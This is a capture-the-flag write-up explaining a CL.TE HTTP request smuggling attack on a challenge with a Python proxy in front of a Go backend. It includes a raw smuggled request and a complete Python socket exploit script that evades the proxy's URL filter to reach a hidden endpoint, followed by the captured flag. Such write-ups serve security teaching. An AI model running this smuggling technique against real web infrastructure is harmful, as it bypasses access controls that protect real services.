


## Platypwn 2025 - HTTP/1 Must Die Write-up



### Step 1: Analyzing the Architecture and Source Code

The setup consists of two services:
1.  **Python Reverse Proxy (`proxy.py`):** Listens on port 8000. Its main job is to forward traffic to the backend. It includes a security check to block any requests containing the substring "flag" in the URL.
2.  **Go Backend Server (`server.go`):** Listens on an internal port (9000). It serves a generic message at the root (`/`) and the secret flag at `/flag`.

The key vulnerability lies in how the proxy processes requests. A detailed code review reveals a critical flaw:

*   The proxy checks for both `Content-Length` and `Transfer-Encoding` headers to determine the body of a POST request.
*   If `Transfer-Encoding: chunked` is present, it uses a custom `handle_chunked` function. This function incorrectly reads the entire chunked payload—including the chunk size metadata (e.g., `3f\r\n`)—into the body that gets forwarded.
*   Before forwarding the request to the Go backend, the proxy strips "hop-by-hop" headers, which **includes `Transfer-Encoding`**.

This creates a classic **CL.TE Desync** scenario:
*   **Front-end (Proxy):** Obeys `Transfer-Encoding` (TE).
*   **Back-end (Server):** Obeys `Content-Length` (CL), because the `Transfer-Encoding` header has been removed by the proxy.

We can exploit this desynchronization to "smuggle" a second request inside the body of a primary request.

### Step 2: Crafting the HTTP Request Smuggling Payload

Our goal is to make the backend server execute a `GET /flag` request. We will hide this request inside a `POST` request that is harmless enough to pass the proxy's filter.

The attack plan is as follows:
1.  Send a single `POST` request containing both `Content-Length` and `Transfer-Encoding: chunked` headers.
2.  The **proxy** will see `Transfer-Encoding` and read the entire chunked body, forwarding it to the backend.
3.  The **backend** will not see `Transfer-Encoding` (as it was stripped). It will rely on `Content-Length`. We set this length to be very small, just enough to cover the first chunk's size indicator.
4.  The backend will read the specified number of bytes, consider the first request finished, and immediately parse the remaining data in the TCP buffer as a new, second request—our smuggled `GET /flag`.

Here is the structure of the payload:

1.  **The Smuggled Request:** The request we want the backend to execute.
    ```http
    GET /flag HTTP/1.1
    Host: backend-server
    Connection: close
    ```

2.  **The Carrier Request:** The outer `POST` request that will carry our payload through the proxy.
    ```http
    POST /anypath HTTP/1.1
    Host: 10.80.15.242
    Content-Length: 4
    Transfer-Encoding: chunked

    3f
    GET /flag HTTP/1.1
    Host: backend-server
    Connection: close

    0

    ```
    *   `Content-Length: 4`: This is the crucial part for the backend. It tells the server to only read 4 bytes of the body (`3f\r\n`).
    *   `Transfer-Encoding: chunked`: This tricks the proxy into reading the entire payload, including our smuggled request.
    *   `3f`: This is the hexadecimal size of our smuggled `GET /flag` request (63 bytes).

### Step 3: The Exploit Script and Execution

To send this malformed raw HTTP request, we use a simple Python script with the `socket` library. A key part of the script is ensuring it reads the *entire* response from the server, as we expect two back-to-back HTTP responses.

```python
import socket

# Target service address and port
HOST = '10.80.15.242'
PORT = 8000

# The request we want to smuggle to the backend
smuggled_request = (
    b'GET /flag HTTP/1.1\r\n'
    b'Host: backend-server\r\n'
    # 'Connection: close' tells the server to close the connection after this response,
    # which helps us know when to stop reading.
    b'Connection: close\r\n\r\n'
)

# Calculate the size of the smuggled request in hexadecimal for the chunk header
chunk_size = hex(len(smuggled_request))[2:].encode('ascii')

# Construct the body of the main request in "chunked" format.
# The proxy will incorrectly forward this entire block, including metadata.
chunked_body = (
    chunk_size + b'\r\n' +      # Chunk size, e.g., b'3f\r\n'
    smuggled_request +          # The smuggled request itself
    b'\r\n' +                   # End of chunk
    b'0\r\n\r\n'                # End of chunked stream
)

# The main POST request.
# Content-Length will cause the backend to stop reading early and process the rest as a new request.
outer_request = (
    b'POST /anypath HTTP/1.1\r\n'
    b'Host: ' + HOST.encode('ascii') + b'\r\n'
    # The length must equal the length of the chunk size string (e.g., '3f\r\n' -> 4 bytes)
    b'Content-Length: ' + str(len(chunk_size) + 2).encode('ascii') + b'\r\n'
    b'Transfer-Encoding: chunked\r\n'
    b'Connection: close\r\n\r\n'
)

# Combine the main request and its body
payload = outer_request + chunked_body

print("--- Sending Payload ---")
print(payload.decode(errors='ignore'))
print("-----------------------\n")

# Send the payload and read the FULL response
try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        s.connect((HOST, PORT))
        s.sendall(payload)
        
        # --- KEY CHANGE ---
        # Read from the socket in a loop until it's closed by the server.
        full_response = b""
        while True:
            data = s.recv(4096)
            if not data:
                break
            full_response += data
        
        print("--- Received Response ---")
        print(full_response.decode(errors='ignore'))
        print("-------------------------")

except Exception as e:
    print(f"An error occurred: {e}")

```

### Step 4: Capturing the Flag

Running the script sends the payload and prints the server's full response. The output clearly shows two consecutive HTTP responses: the first is for the `POST` request, and the second is for our smuggled `GET /flag` request, which contains the flag.



### Flag
`PP{why_4r3_th3r3_2_l3ngth_h34d3rs?::xHIM8wPdtDNz}`